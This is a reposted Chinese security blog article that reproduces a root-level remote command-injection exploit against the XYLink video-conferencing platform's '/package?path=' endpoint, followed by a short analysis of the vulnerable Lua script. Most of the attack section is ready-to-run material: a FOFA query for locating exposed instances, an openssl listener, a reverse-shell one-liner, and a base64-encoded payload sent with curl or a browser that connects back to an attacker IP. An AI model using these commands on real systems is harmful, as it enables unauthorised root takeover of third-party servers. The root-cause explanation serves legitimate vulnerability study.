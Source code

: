> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/iCHikHfJZBjNYr-950gKJA)

**上来就 fofa 大法：**

```
title="云视讯管理平台"
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/nMQkaGYuOibDUjWrXBH3Xhbjxlew2fjJ7ib4OLKn1NhRxNcXalnZIUEa7c6AghnOTPuVDKswD2SsR1YRDytacO3Q/640?wx_fmt=jpeg)

找到页面了之后寻找该该系统的 OpenReaty 页面，一般都在其他端口上。  

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDUjWrXBH3Xhbjxlew2fjJ7ToruG4lFXhUFBauTDIjDv4gRt7muLEFcTkbGKyuXvn8ibG8PtHzsMNw/640?wx_fmt=png)

**漏洞特征：**

**通过访问 “/package?path=`Liunx 命令 `” 可直接构造远程代码执行。**

**漏洞原理：**

**“小鱼易连视频会议系统”LUA 脚本权限分配不当, 导致任意用户可利用 root 权限执行命令**

**复现全过程：**

本地进行 openssl 监听：

1、生成证书：

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

2、进行监听：

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
```

3、构造反弹 shell 命令

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <IP>:<PORT> > /tmp/s; rm /tmp/s
```

```
命令解释：
1.mkfifo是创建一个命名管道，创建好了以后/tmp/s内容是空的
2.然后不断执行那个bash反弹的命令，连接的地址从步骤1的文件里取
3.找那个443连接往步骤1里的文件写入内容，估计是ip和端口
4.最后shell弹好了就删除步骤1的文件
```

4、构造 “package?path=” 路径下命令执行语句，将上面反弹 shell 命令进行 base64 加密。

开始攻击：

1、请求目机机器上执行命令有三种方法：

```
curl：curl "http://ip/package?path=`echo bWtmaWZvIC90bXAvczsvYmluL2Jhc2ggLWkgPCAvdG1wL3MgMj4mMXxvcGVuc3NsIHNfY2xpZW50IC1xdWlldCAtY29ubmVjdCAxMC42Mi45Ni4yMzY6ODg4ID4gL3RtcC9zO3JtIC1mIC90bXAvcw== | base64 -d | sh`"
```

2、直接 web 上面请求：

```
http://ip/package?path=echo bWtmaWZvIC90bXAvczsvYmluL2Jhc2ggLWkgPCAvdG1wL3MgMj4mMXxvcGVuc3NsIHNfY2xpZW50IC1xdWlldCAtY29ubmVjdCAxMC42Mi45Ni4yMzY6ODg4ID4gL3RtcC9zO3JtIC1mIC90bXAvcw== | base64 -d | sh
```

3、burp 抓包拦截请求，同 web 一样。

bp 抓上面的请求会返回 302，然后跳转 404, 不要慌，这时候去看你的监听服务器

监听服务器返回 shell，直接 root 权限

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDUjWrXBH3Xhbjxlew2fjJ7InhqUruF4casAqib5wY2hI5IEicaicibolf8EGMs4ox6TKsvfDC2U4L12Q/640?wx_fmt=png)

接下来详细分析：  

找机器来验证，环境为 docker，上机查看：

```
netstat -anvp | grep :80
```

返回结果如下：

```
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      16554/nginx: mas
```

运行在 80 端口的程序为 nginx，在宿主机中寻找 nginx 程序

```
find / -name nginx
```

发现宿主机中没有运行 nginx

于是尝试进入 k8s 中的容器寻找响应服务

```
docker ps | grep openresty
```

结果如下：  

```
b61e91356e49    "/usr/local/openresty"
```

最终在 k8s 中的 openresty 容器中发现了 nginx 程序 /usr/local/openresty/nginx，查询 nginx 配置文件，发现配置文件当中引用了一行 lua 脚本：

```
location = /package {
                proxy_set_header Host $host:$server_port;
                proxy_set_header X-Real-IP $remote_addr;
                proxy_set_header X-Nginx-IP $server_addr;
                limit_req zone=normalfrequ burst=20 nodelay;
                content_by_lua_file lua/package.lua;
          }
```

查询该文件并查看文件内容 cat /usr/local/openresty/nginx/lua/package.lua

```
local package_absolute_path = '/var/log/logs.tar.gz'
local path = ngx.req.get_uri_args().path
if nil == path then
    path = '/logs'
end

os.execute('rm -rf ' .. package_absolute_path)
os.execute('tar -zcvPf ' .. package_absolute_path .. ' ' .. path)
ngx.redirect('/log/logs.tar.gz?' .. os.time())
print('rm -rf ' .. package_absolute_path)
os.execute('rm -rf ' .. package_absolute_path)
return
```

仔细研究发现在配置文件中直接对 path 参数传入的字符串与 rm -rf 等命令进行拼接，没有进行文件白名单等过滤，攻击者可以通过构造特殊字符串对命令进行闭合，从而造成 Linux 命令注入，公网大多已修复后才进行爆出。

谨记网络安全法，切勿用于非法用途

公众号

最后再给大家介绍一下漏洞库，地址：wiki.xypbk.com  

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibAMOicC5b9zVDyfybStngExBMSTicgTjNIOd4cSIroia7ae82ZJvdibclGltrgjdJLzugk276Q9xkonYw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibAMOicC5b9zVDyfybStngExBn4bcIUDNGtN3mHLSSNiabKm9LPwxmb4qeq5Jbk6COGnLbgr5Rt2POmA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibAMOicC5b9zVDyfybStngExBkevFiamAkVDFhgFopA50dnUI98AAo6nXuuTC5DpeKS6BneWtTpWu7ew/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibAMOicC5b9zVDyfybStngExBx4lpIiahQIj3G9Y3cpiaaqLFIN5EtlrDlkb1Sqnm40wtVYcWof1bSOXw/640?wx_fmt=png)

本站暂不开源，因为想控制影响范围，若因某些人乱搞，造成了严重后果，本站将即刻关闭。

漏洞库内容来源于互联网 && 零组文库 &&peiqi 文库 && 自挖漏洞 && 乐于分享的师傅，供大家方便检索，绝无任何利益。  

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。

若有愿意分享自挖漏洞的佬师傅请公众号后台留言，本站将把您供上，并在此署名，天天烧香那种！

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/nMQkaGYuOibDavXvuud5F09Tjl7NMvU8Yzhia63knJ4QJFvO4WBfd6KQazjtuPC7uqNBt5gE06ia7GjOVn2RFOicNA/640?wx_fmt=jpeg)

扫取二维码获取

更多精彩

![](https://mmbiz.qpic.cn/mmbiz_png/TlgiajQKAFPtOYY6tXbF7PrWicaKzENbNF71FLc4vO5nrH2oxBYwErfAHKg2fD520niaCfYbRnPU6teczcpiaH5DKA/640?wx_fmt=png)

Qingy 之安全  

![](https://mmbiz.qpic.cn/mmbiz_png/Y8TRQVNlpCW6icC4vu5Pl5JWXPyWdYvGAyfVstVJJvibaT4gWn3Mc0yqMQtWpmzrxibqciazAr5Yuibwib5wILBINfuQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3pKe8enqDsSibzOy1GzZBhppv9xkibfYXeOiaiaA8qRV6QNITSsAebXibwSVQnwRib6a2T4M8Xfn3MTwTv1PNnsWKoaw/640?wx_fmt=png)

点个在看你最好看